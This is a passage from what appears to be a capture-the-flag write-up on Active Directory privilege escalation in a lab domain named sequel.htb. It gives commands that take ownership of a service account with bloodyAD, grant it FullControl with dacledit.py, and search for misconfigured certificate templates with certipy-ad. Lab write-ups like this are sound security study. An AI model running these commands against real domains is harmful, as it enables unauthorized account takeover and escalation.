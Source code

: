 <img src="Imgs/image27.jpg" alt="error loading image">

Start from giving access to ryan of ca_svc account using bloodyAd

**Command:** `bloodyAD --host DC01.sequel.htb -d sequel.htb -u ryan -p '<password>' set owner ca_svc ryan`

In order to give complete access we use suggestion from blood hound i.e. dacledit

**Command:** `dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb/ryan':'<password here>'`

<img src="Imgs/image28.jpg" alt="error loading image"> 

Form here onward I mostly use certipy. I prefer certipy over certify-ad for more on certipy have 
[excellent writeup](https://medium.com/@init.d/certipy-or-certipy-ad-40a313992692)

To check available template and misconfigured template that allow privilege escalation. We use certipy-ad but the exact can be done using certipy

**Command:** `certipy-ad find -u "ryan" -p "<password here>" -dc-ip 10.10.11.51 -debug `

